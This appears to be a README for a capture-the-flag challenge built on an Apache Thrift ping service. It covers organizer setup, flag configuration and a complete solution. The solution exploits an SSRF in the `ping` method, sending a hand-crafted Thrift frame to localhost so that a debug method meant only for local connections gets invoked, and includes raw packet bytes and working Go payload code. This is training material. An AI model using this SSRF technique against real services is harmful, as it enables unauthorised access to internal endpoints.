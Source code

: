 # thrift-challenge

## Guide for CTF organizer

Challenge name: Homework Assignment 1337.
Challenge description:
```
Your homework assignment this evening is to write a simple Thrift client.

Your client must call the ping method on the homework server $SERVER:9090.
The server allows you to check your work, try using the server to ping facebook.com or something.

The ping.thrift file is provided here: $LINK
```


The file, `./dist/ping.thrift` should be given to the challengers as $LINK.
The `thrift-challenge -server` should be run somewhere accessible.
The IPv4 of this should be given as $SERVER.

To run the challenge using Docker:

```
docker build -t homework_assignment_1337 .
docker run -p 9090:9090 -it homework_assignment_1337
```

**How to set the flag**

On the host the server is running on, run:
```
thrift-challenge -flag 'key{you_win_the_game}'  
```

**How to solve this challenge**

You can write in any language, for example `go`: https://thrift.apache.org/tutorial/go

Run:
```
thrift -r --gen go ping.thrift
```

Challengers should see:
```
service PingBot {

  /**
   * A method definition looks like C code. It has a return type, arguments,
   * and optionally a list of exceptions that it may throw. Note that argument
   * lists and exception lists are specified using the exact same syntax as
   * field lists in struct or exception definitions.
   */

  Pong ping(1:Ping input),

  // Ignore this, internal testing.
  // Should only work for localhost connections either way.
  PongDebug pingdebug(1:Debug dummy),
}
```

In the thrift definition and hone in on `pingdebug`.

You win with a SSRF within `ping`.

The goal is write a `Ping.data` payload that creates a Thrift request for `pingdebug`.
Then set the `Ping.Host` to `localhost:9090`. 

Here is an example payload you can grab from Wireshark if you attempt a connection remotely.

```
    char peer0_0[] = { /* Packet 16 */
        0x80, 0x01, 0x00, 0x01 };
        char peer0_1[] = { /* Packet 18 */
        0x00, 0x00, 0x00, 0x09 };
        char peer0_2[] = { /* Packet 20 */
        0x70, 0x69, 0x6e, 0x67, 0x64, 0x65, 0x62, 0x75, 
        0x67 };
        char peer0_3[] = { /* Packet 22 */
        0x00, 0x00, 0x00, 0x01 };
        char peer0_4[] = { /* Packet 24 */
        0x0c };
        char peer0_5[] = { /* Packet 26 */
        0x00, 0x01 };
        char peer0_6[] = { /* Packet 28 */
        0x08 };
        char peer0_7[] = { /* Packet 30 */
        0x00, 0x01 };
        char peer0_8[] = { /* Packet 32 */
        0x00, 0x00, 0x00, 0x00 };
        char peer0_9[] = { /* Packet 34 */
        0x00 };
        char peer0_10[] = { /* Packet 36 */
        0x00 };
```

And an example solution:
```
func handleClientSolution(client *ping.PingBotClient) (err error) {
	pings := ping.NewPing()
	pings.Proto = ping.Proto_TCP
	pings.Host = "localhost:9090"
	pings.Data = "\x80\x01\x00\x01"
	pings.Data += "\x00\x00\x00\x09"
	pings.Data += "\x70\x69\x6e\x67\x64\x65\x62\x75\x67"
	pings.Data += "\x00\x00\x00\x01"
	pings.Data += "\x0c"
	pings.Data += "\x00\x01"
	pings.Data += "\x08"
	pings.Data += "\x00\x01"
	pings.Data += "\x00\x00\x00\x00"
	pings.Data += "\x00"
	pings.Data += "\x00"

	if msg, err := client.Ping(defaultCtx, pings); err != nil {
		fmt.Printf("ping() error %s\n", err.Error())
	} else {
		fmt.Printf("ping(): %s\n", msg)
	}

	return nil
}
```

## TODO

- Create `Dockerfile`
- Playtest in AWS
